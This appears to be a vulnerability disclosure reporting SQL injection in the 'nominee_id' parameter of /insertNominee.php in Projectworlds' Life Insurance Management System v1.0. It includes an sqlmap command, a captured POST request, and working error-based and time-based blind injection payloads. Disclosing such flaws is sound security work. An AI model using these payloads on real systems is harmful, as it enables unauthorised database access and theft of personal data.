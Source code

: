 

#  SQLi vulnerability in Life Insurance Management System v1.0 of file /insertNominee.php with param 'nominee_id'

**vender**:

- projectworlds

**SoftLink**:

- [Life Insurance Management System in PHP | Projectworlds](https://projectworlds.in/life-insurance-management-system-in-php/)

**Vulnerable File**

- /insertNominee.php

**Version**

- V1.0

### POC

```bash
sqlmap -r request.txt -p nominee_id --level 5 --batch
```



```http
POST /insertNominee.php HTTP/1.1
Host: www.lims.top
Cookie: PHPSESSID=sqvuccn7rsiqr9bhq7p29tfds2
Priority: u=0, i
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Origin: http://www.lims.top
Content-Type: application/x-www-form-urlencoded
Referer: http://www.lims.top/addNominee.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 90

nominee_id=3&client_id=3&name=3&sex=3&birth_date=3&nid=3&relationship=3&priority=3&phone=3
```



```
---
Parameter: nominee_id (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: nominee_id=3' AND GTID_SUBSET(CONCAT(0x716b767071,(SELECT (ELT(5576=5576,1))),0x71786a7071),5576) AND 'BEoT'='BEoT&client_id=3&name=3&sex=3&birth_date=3&nid=3&relationship=3&priority=3&phone=3

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: nominee_id=3' AND (SELECT 5107 FROM (SELECT(SLEEP(5)))IsXM) AND 'qxSb'='qxSb&client_id=3&name=3&sex=3&birth_date=3&nid=3&relationship=3&priority=3&phone=3
---
```


